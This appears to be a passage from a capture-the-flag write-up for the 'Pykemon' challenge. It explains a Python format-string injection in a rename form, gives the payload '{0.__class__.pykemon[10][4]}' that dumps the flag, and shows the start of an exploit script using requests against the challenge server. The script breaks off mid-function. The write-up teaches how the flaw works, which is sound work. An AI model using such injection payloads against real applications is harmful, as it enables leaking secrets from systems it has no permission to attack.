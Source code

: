 See the vulnerability? No?

Here it is if you didn't see it: `new_name.format(p)`, where `new_name` is a form parameter and p is the Pykemon object.

After a quick look to the python documentation for `string.format()` we found out you can get attributes of arguments in a format string.

Using that we built the following format string: `{0.__class__.pykemon[10][4]}`, which dumps the flag.

`PCTF{N0t_4_sh1ny_M4g1k4rp}`

## Retrospective

Decoding the session was actually not needed to solve this challenge because the Pykemon ids are also in the HTML.

We also just found out that if we already go to the trouble of decoding the session, we could read through it properly as well.
It turns out the decoded session already contains the flag if a FLAG Pykemon is in the room, but because all useful strings in the JSON are base64-encoded _AGAIN_, we didn't see it at first.

## Scripts

Original exploit script

```python3
import requests
import base64
import zlib
import json
import re

class D:
    pass

d = D()

d.s = requests.session()
d.url = "http://pykemon.chal.pwning.xxx/"

def get_cookie_object():
    for c in d.s.cookies:
        if c.name == "session":
            return c

def rename(name, new_name):
    return d.s.post(d.url + "rename/", data={
        'name': name,
        'new_name': new_name
    }).text

def catch(name):
    return d.s.post(d.url + "catch/", data={
        'name': name
    }).text

def get_room():
    global d
    return d.s.get(d.url)

def decode_session():
    global d
    cookie = get_cookie_object()
    if cookie == None:
```